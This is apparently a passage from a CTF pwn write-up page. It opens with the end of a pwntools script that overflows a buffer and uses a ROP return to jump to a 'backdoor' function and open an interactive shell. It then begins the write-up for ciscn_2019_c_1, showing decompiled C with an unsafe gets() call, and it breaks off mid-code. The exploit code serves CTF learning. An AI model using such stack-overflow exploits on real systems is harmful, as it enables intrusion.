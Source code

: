 ```python
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    elf = context.binary
    rop = ROP(elf)

    payload = flat(b"A" * 0x18, rop.ret.address, elf.symbols["backdoor"])

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendlineafter(b"your name:", b"1337")
    target.sendlineafter(b"What's u name?", payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

# ciscn_2019_c_1

## Information

- Category: Pwn
- Points: 1

## Write-up

程序的 `main` 函数里没什么有用的信息，重点看下面的 `encrypt` 函数。

```c del={10,35}
int encrypt()
{
  size_t v0; // rbx
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  __int16 v3; // [rsp+30h] [rbp-20h]

  memset(s, 0, sizeof(s));
  v3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets(s);
  while ( 1 )
  {
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
    if ( s[x] <= 96 || s[x] > 122 )
    {
      if ( s[x] <= 64 || s[x] > 90 )
```